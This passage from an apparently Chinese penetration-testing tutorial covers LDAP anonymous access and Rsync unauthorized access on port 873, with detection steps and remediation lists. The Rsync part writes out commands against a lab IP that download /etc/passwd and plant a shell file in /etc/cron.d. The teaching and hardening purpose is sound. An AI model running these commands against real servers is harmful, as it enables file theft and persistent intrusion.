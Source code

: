 ### 漏洞检测

  1、端口扫描

  2、使用 nmap 寻找到相关的 LDAP 服务器，可以使用 ldapbrowser 工具（下载：https://ldapbrowserwindows.com/）直接连接，获取目录内容。

![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504095246296-6446291.png)

### 漏洞修复

*   修改 ldap 的 acl，禁止匿名访问。
    
*   根据业务设置 ldap 访问白名单或黑名单；
    

**3.  Rsync 未授权访问（873）**
------------------------

### 漏洞简介

  rsync 是 Linux/Unix 下的一个远程数据同步工具，可通过 LAN/WAN 快速同步多台主机间的文件和目录，默认运行在 873 端口。由于配置不当，导致任何人可未授权访问 rsync，上传本地文件，下载服务器文件。

### 漏洞检测

  1、端口扫描

  2、root@kali 使用 Rsync 命令即可进行检测。

    `rsync rsync://192.168.126.130:873/`

    `rsync rsync://192.168.126.130:873/src`

  利用 rsync 下载任意文件

    `rsync rsync://192.168.126.130:873/src/`

![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504095443188-162142018.png)

    `etc/passwd ./`

![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504095502048-666665478.png)

    或者写入任意文件

    `rsync -av shell rsync://192.168.126.130:873/src/etc/cron.d/shell`

![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504095529385-1617495398.png)

### 漏洞修复

*   隐藏掉 module 信息：修改配置文件 list =false。
    
*   权限控制：不需要写入权限的 module 的设置为只读 Read only = true;
    
*   网络访问控制：使用安全组策略或白名单限制，只允许必要访问的主机访问;
    
*   账户认证：只允许指定的用户利用指定的密码使用 rsync 服务;
    